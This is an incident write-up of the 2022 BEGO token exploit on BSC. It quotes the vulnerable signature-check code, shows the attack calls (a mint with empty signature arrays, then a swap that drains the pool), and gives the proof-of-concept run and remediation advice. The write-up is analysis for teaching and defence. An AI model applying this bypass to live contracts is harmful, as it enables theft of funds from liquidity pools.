



# BEGO (BGeoToken) Exploit — Signature-Gated `mint()` Bypassed With Empty Signature Arrays

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many
> unrelated PoCs that do not whole-compile under `forge test`, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [sources/BGeoToken_c34277/BGeoToken.sol](sources/BGeoToken_c34277/BGeoToken.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **~12.04 WBNB** (`12.037249252714479992` WBNB) drained from the BEGO/WBNB PancakeSwap pair |
| **Vulnerable contract** | `BGeoToken` (token symbol **BGEO**, branded "BEGO") — [`0xc342774492b54ce5F8ac662113ED702Fc1b34972`](https://bscscan.com/address/0xc342774492b54ce5F8ac662113ED702Fc1b34972#code) |
| **Victim pool** | BEGO/WBNB PancakeSwap V2 pair — [`0x88503F48e437a377f1aC2892cBB3a5b09949faDd`](https://bscscan.com/address/0x88503F48e437a377f1aC2892cBB3a5b09949faDd) |
| **Attacker EOA** | [`0xde01f6Ce91E4F4bdB94BB934d30647d72182320F`](https://bscscan.com/address/0xde01f6Ce91E4F4bdB94BB934d30647d72182320F) |
| **Attacker contract** | `0x08a525104Ea2A92aBbcE8e4e61C667eED56f3B42` |
| **Attack tx** | [`0x9f4ef3cc55b016ea6b867807a09f80d1b2e36f6cd6fccfaf0182f46060332c57`](https://bscscan.com/tx/0x9f4ef3cc55b016ea6b867807a09f80d1b2e36f6cd6fccfaf0182f46060332c57) |
| **Chain / fork block / date** | BSC / 22,315,679 / Oct 18, 2022 |
| **Compiler (victim on-chain)** | Solidity **v0.6.10** (`pragma >=0.6.0 <0.8.0`), optimizer disabled |
| **Compiler (PoC harness)** | Solidity 0.8.34 (test only) |
| **Bug class** | Broken access control / signature-verification bypass — unauthorized `mint()` via empty signature arrays |

---

## TL;DR

`BGeoToken.mint()` is supposed to be a *bridge mint*: it should only succeed when a quorum of
authorized off-chain **signers** has signed `keccak256(bsc, msg.sender, txHash, amount)`. The
authorization is enforced by the `isSigned(...)` modifier
([BGeoToken.sol:1210-1226](sources/BGeoToken_c34277/BGeoToken.sol#L1210-L1226)).

That modifier is **completely bypassable by passing three empty arrays** `_r = [], _s = [], _v = []`:

1. `checkSignParams([], [], [])` returns `true` because `0 == 0 == 0`
   ([:1237-1243](sources/BGeoToken_c34277/BGeoToken.sol#L1237-L1243)).
2. The recovery loop `for (i = 0; i < _r.length; i++)` never executes — **`ecrecover` is never called**,
   so the `_signers` array stays empty ([:1219-1222](sources/BGeoToken_c34277/BGeoToken.sol#L1219-L1222)).
3. `isSigners([])` loops `for (i = 0; i < _signers.length; i++)` over an **empty** array, finds no
   non-signer, and returns `true` by default ([:1228-1235](sources/BGeoToken_c34277/BGeoToken.sol#L1228-L1235)).

With the modifier satisfied, `mint()` mints **any amount to any receiver**. The attacker minted
**1,000,000,000,000 BEGO** (1e30 wei) to itself, then dumped it into the BEGO/WBNB pair on PancakeSwap,
draining essentially the entire **12.04 WBNB** of real liquidity. No flash loan, no capital — a single
`mint()` followed by one swap.

---

## Background — what BGeoToken does

`BGeoToken` ([source](sources/BGeoToken_c34277/BGeoToken.sol)) is a standard BEP20 ("Binance GeoDB Coin",
symbol BGEO) extended with a **multi-signer bridge-style mint**. The design intent:

- An off-chain GeoDB backend authorizes a deposit on another chain and produces ECDSA signatures over the
  mint parameters.
- A set of trusted `signers` is registered on-chain (`addSigner`/`revokeSigner`, both `onlyOwner` —
  [:1270-1281](sources/BGeoToken_c34277/BGeoToken.sol#L1270-L1281)).
- `mint()` should only succeed if the supplied signatures recover to registered signer addresses, and the
  `txHash` has not been used before (replay protection via `txHashes` —
  [:1201](sources/BGeoToken_c34277/BGeoToken.sol#L1201), [:1254-1255](sources/BGeoToken_c34277/BGeoToken.sol#L1254-L1255)).

The whole security of the token supply rests on the `isSigned` modifier actually *verifying* signatures.
It does not.

On-chain facts at the fork block (from the trace):

| Fact | Value |
|---|---|
| BEGO/WBNB pair (`0x88503F…`) reserve — WBNB (`reserve0`) | **12.0373 WBNB** ← the prize |
| BEGO/WBNB pair reserve — BEGO (`reserve1`) | 347,121.6 BEGO |
| Amount the attacker minted to itself | **1,000,000,000,000 BEGO** (1e30 wei = 1e12 tokens) |
| `txHash` used | `"t"` (single character, unused before) |

The pair's `token0 = WBNB`, `token1 = BEGO` (confirmed by the `Swap` event: `amount1In = 1e30` BEGO in,
`amount0Out = 12.037 WBNB` out — see [output.txt:1626](output.txt)).

---

## The vulnerable code

### 1. The signature-checking modifier and its two empty-array holes

```solidity
modifier isSigned(
    string memory _txHash,
    uint256 _amount,
    bytes32[] memory _r,
    bytes32[] memory _s,
    uint8[] memory _v
) {
    require(checkSignParams(_r, _s, _v), "bad-sign-params");          // ① 0==0==0 ⇒ passes
    bytes32 _hash = keccak256(abi.encodePacked(bsc, msg.sender, _txHash, _amount));
    address[] memory _signers = new address[](_r.length);            // length 0
    for (uint8 i = 0; i < _r.length; i++) {                          // ② loop never runs
        _signers[i] = ecrecover(_hash, _v[i], _r[i], _s[i]);         //    ecrecover never called
    }

    require(isSigners(_signers), "bad-signers");                     // ③ isSigners([]) ⇒ true
    _;
}
```
([BGeoToken.sol:1210-1226](sources/BGeoToken_c34277/BGeoToken.sol#L1210-L1226))

```solidity
function isSigners(address[] memory _signers) public view returns (bool){
    for (uint8 i = 0; i < _signers.length; i++) {   // empty array ⇒ loop body skipped
        if (!_containsSigner(_signers[i])) {
            return false;
        }
    }
    return true;                                    // ← default-true on empty input
}

function checkSignParams(
    bytes32[] memory _r,
    bytes32[] memory _s,
    uint8[] memory _v
) private view returns (bool){
    return (_r.length == _s.length) && (_s.length == _v.length);   // 0 == 0 && 0 == 0 ⇒ true
}
```
([BGeoToken.sol:1228-1243](sources/BGeoToken_c34277/BGeoToken.sol#L1228-L1243))

### 2. The mint that trusts the modifier

```solidity
function mint(
    uint256 _amount,
    string memory _txHash,
    address _receiver,
    bytes32[] memory _r,
    bytes32[] memory _s,
    uint8[] memory _v
) isSigned(_txHash, _amount, _r, _s, _v) external returns (bool){
    require(!txHashes[_txHash], "tx-hash-used");   // replay guard — but txHash is attacker-chosen
    txHashes[_txHash] = true;

    _mint(_receiver, _amount);                     // ⚠️ mints arbitrary _amount to arbitrary _receiver
    return true;
}
```
([BGeoToken.sol:1246-1259](sources/BGeoToken_c34277/BGeoToken.sol#L1246-L1259))

There is **no minimum-signer requirement** and **no access control** on `mint()` itself. The only gate is
`isSigned`, and that gate evaluates to `true` for empty arrays.

---

## Root cause — why it was possible

The contract conflates "the signature arrays are *consistent*" with "the signature arrays are
*sufficient*". Three independent default-true behaviors compound into a full authorization bypass:

1. **`checkSignParams` accepts empty arrays.** It only checks that the three arrays have equal length; it
   never checks `length > 0` or `length >= requiredSignerThreshold`. `(0 == 0) && (0 == 0)` is `true`.
2. **The recovery loop is bounded by the attacker-controlled array length.** With `_r.length == 0`, the
   loop body — the only place `ecrecover` runs — is dead. No signature is ever verified.
3. **`isSigners` returns `true` for an empty set.** A universally-quantified "all elements are signers"
   over the empty set is vacuously true. Combined with (2), the set is always empty, so this check is a
   no-op for the attack path.

The deeper architectural flaw: **authorization is expressed as "no element fails the check" instead of
"a sufficient number of elements pass the check."** Any quorum/allow-list verification that iterates a
caller-supplied array MUST first assert a non-zero (and ideally threshold-meeting) length, or an empty
array silently means "approve everything."

`mint()`'s `txHashes` replay guard does not help: the `txHash` is supplied by the caller (here, the
literal string `"t"`), so the attacker simply picks any unused value.

---

## Preconditions

- **None beyond being able to call a public function.** `mint()` is `external` with no `onlyOwner`/role
  restriction; the `isSigned` modifier is the sole gate and is bypassed with empty arrays.
- The attacker needs an unused `_txHash` string (trivially satisfiable — they choose it).
- A BEGO/WBNB liquidity pool must exist to convert the minted tokens into value (it did, with ~12.04 WBNB).
- No capital and no flash loan are required: the attacker mints the tokens out of thin air, then swaps.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt) (`forge test -vvvvv`).

| # | Step | Call | Result |
|---|------|------|--------|
| 0 | **Initial** | pair reserves | WBNB `reserve0 = 12.0373`, BEGO `reserve1 = 347,121.6` |
| 1 | **Forge the mint** | `BEGO.mint(1e30, "t", attacker, [], [], [])` | `isSigned` passes on empty arrays; `_mint(attacker, 1e30)` → attacker holds **1,000,000,000,000 BEGO** ([output.txt:1585-1591](output.txt)) |
| 2 | **Approve router** | `BEGO.approve(PancakeRouter, type(uint256).max)` | router can pull the minted BEGO ([:1592-1596](output.txt)) |
| 3 | **Dump for WBNB** | `swapExactTokensForTokensSupportingFeeOnTransferTokens(1e30 BEGO, 0, [BEGO,WBNB], attacker, …)` | transfers `1e30` BEGO into the pair, pulls **12.037249252714479992 WBNB** out ([:1599-1634](output.txt)) |
| 4 | **Pool drained** | `Sync` after swap | WBNB `reserve0 ≈ 4.19e-6` (≈ 4,188,861,461,380 wei), BEGO `reserve1 ≈ 1e30` ([:1625](output.txt)) |

The single `Swap` event ([output.txt:1626](output.txt)) records it exactly:

```
emit Swap(sender: PS_ROUTER, amount0In: 0, amount1In: 1e30 (BEGO),
          amount0Out: 12037249252714479992 (WBNB), amount1Out: 0, to: ContractTest)
```

The attacker dumped 1e30 BEGO — ~2.88 billion times the pool's entire BEGO reserve — so PancakeSwap's
constant-product curve pushed the BEGO price to ~0 and handed over almost the whole WBNB side. The pool's
WBNB reserve fell from 12.0373 WBNB to **~4.19e-6 WBNB**: essentially zero.

### Profit accounting (WBNB)

| Direction | Amount |
|---|---:|
| Capital required | **0** (tokens minted for free; no flash loan) |
| WBNB received from the dump | **12.037249252714479992** |
| **Net profit** | **+12.037249252714479992 WBNB** |

The PoC confirms it mechanically:

```
[Start] Attacker WBNB balance before exploit: 0.000000000000000000
[End]   Attacker WBNB balance after exploit:  12.037249252714479992
```

This matches the original disclosed loss of **~12 WBNB**.

---

## Diagrams

### Sequence of the attack



### Pool & supply state evolution



### The flaw inside `isSigned` / `mint`



---

## Remediation

1. **Require a non-empty, threshold-meeting signer set.** In `checkSignParams` (or at the top of the
   modifier) add `require(_r.length >= requiredSigners && requiredSigners > 0, "insufficient-signers")`.
   Equal lengths alone is not authorization.
2. **Fix `isSigners` to reject the empty set.** Change the semantics from "no element fails" to "enough
   distinct registered signers passed": e.g. `require(_signers.length >= threshold)` and count *distinct*
   registered signers, rejecting duplicates and `address(0)` (note `ecrecover` returns `address(0)` on a
   malformed signature, which must never be a registered signer).
3. **Bind the verified count to the mint, not just the modifier.** The `mint` body should not trust a
   modifier that can be satisfied vacuously; assert the recovered-signer count explicitly.
4. **Guard `ecrecover` against malleability and zero-address recovery.** Use a vetted library
   (e.g. OpenZeppelin `ECDSA`) that reverts on `s` in the upper half-order and on `v` outside {27,28},
   and never treats `address(0)` as authorized.
5. **General principle for allow-list / quorum checks:** any loop of the form "return true unless some
   element fails" over caller-supplied data MUST be preceded by a non-zero length (and threshold) check,
   or an empty input becomes an implicit "approve everything."

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many unrelated
PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2022-10-BEGO_exp -vvvvv
```

- RPC: a **BSC archive** endpoint is required (fork block 22,315,679 is from Oct 2022). `foundry.toml`
  uses `https://bsc-mainnet.public.blastapi.io`, which serves historical state at that block; most pruned
  public BSC RPCs fail with `header not found` / `missing trie node`.
- Result: `[PASS] testExploit()` with `Profit WBNB ≈ 12.04`.

Expected tail:

```
Ran 1 test for test/BEGO_exp.sol:ContractTest
[PASS] testExploit() (gas: 168833)
Logs:
  [Start] Attacker WBNB balance before exploit: 0.000000000000000000
  [End] Attacker WBNB balance after exploit: 12.037249252714479992

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: Ancilia (`@AnciliaInc`) and PeckShield (`@peckshield`) alerts, Oct 18-19, 2022; SlowMist
Hacked — https://hacked.slowmist.io/ (BEGO, BSC, ~12 WBNB).*
